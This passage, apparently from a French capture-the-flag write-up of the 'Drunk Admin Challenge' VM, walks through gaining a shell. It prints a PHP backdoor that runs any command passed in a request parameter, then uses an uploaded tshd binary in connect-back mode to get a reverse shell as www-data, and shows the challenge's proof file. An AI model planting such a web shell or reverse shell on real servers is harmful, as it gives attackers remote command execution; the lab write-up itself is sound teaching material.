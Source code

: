 Du coup j'ai écrit la backdoor suivante :  

```php
<?                                                                                                                                                          
  exec($_REQUEST["cmd"], $response);                                                                                                                        
  foreach($response as $line) {                                                                                                                             
      echo "$line\n";                                                                                                                                       
  }                                                                                                                                                         
?>
```

Un upload et une exécution de *tshd* en mode connect-back plus tard (*/images/\_hash\_.phtml?cmd=setsid%20./tshcbd*) :  

```plain
$ ./tsh cb
Waiting for the server to connect...connected.
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/images
```

Dans */var/www*, on découvre un fichier *.proof* avec le contenu suivant :  

```plain
#########################
# Drunk Admin Challenge #
#     by @anestisb      #
#########################

bob> Great work.
bob> Meet me there.
...> ?
bob> What? You don't know where?
bob> Work a little more your post
     exploitation skills.

Secret Code:
TGglMUxecjJDSDclN1Ej

Mail me your methods at:
anestis@bechtsoudis.com
```

Une dernière pour la route
--------------------------

Malheureusement cette information ne nous permet pas de terminer la mission.  

On fouille plus on finit par trouver des fichiers dans le dossier web de l'utilisateur *bob* :  
